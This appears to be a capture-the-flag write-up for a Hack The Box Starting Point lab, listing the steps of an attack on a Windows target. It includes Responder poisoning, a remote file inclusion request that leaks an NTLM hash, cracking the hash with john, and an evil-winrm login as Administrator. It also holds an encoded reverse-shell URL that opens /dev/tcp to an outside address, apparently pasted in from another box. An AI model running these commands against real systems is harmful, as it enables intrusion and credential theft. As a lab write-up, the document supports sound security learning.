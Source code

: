# Overview
**Difficulty:** Very Easy  
**Skills:** RFI, responder, ntlm-relay, password cracking, winrm  
**HTB Link:** https://app.hackthebox.com/starting-point  
**Summary:** Capture NTLM via LLMNR/NetBIOS poisoning and RFI, crack NTLM hash, log to WinRM to obtain admin shell.

---

# Steps

# reconnaissance
## nmap scan
- [nmap scan](./evidences/nmap.txt)
- OpenSSH 7.6p1 22/tcp
- Apache web server on port 80/tcp

## hostname
- thetoppers.htb

## ffuf fuzzing
- 

# resource development
## responder tool
- [NTLM hash](./evidences/ntlm_hash.png)
- responder -I tun0
- listening on the interface connected to the LAN of the target for LLMNR (Link Local Multicast Neighbor Resolution)
- so that we can get the username and HASH (MD4) used to authenticate via NTLM

# initial access
## remote-file-intrusion
- [RFI command](./evidences/remote_file_intrusion.png)
- index.php?page=//10.10.14.78/test
- the responder logs are stored in: /usr/share/responder/log
- the hash inside the log is saved inside [NTLM hash] (./evidences/hash.txt)
http://thetoppers.htb/shell.php?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.121%2F9001%200%3E%261

## hash crack
- [NTLM hash cracked](./evidences/hash_cracking.png)
- john --wordlist=/usr/share/wordlist/seclists/Passwords/Leaked-Databases/rockyou-75.txt ./evidences/hash.txt

## WinRM access
- [WinRM shell access](./evidences/WinRM_access.png)
- evil-winrm -i unika.htb -u Administrator -p badminton

# privilege escalation
- [root flag](./evidences/root_flag.png)
- cat C:\Users\mike\Desktop\flag.txt

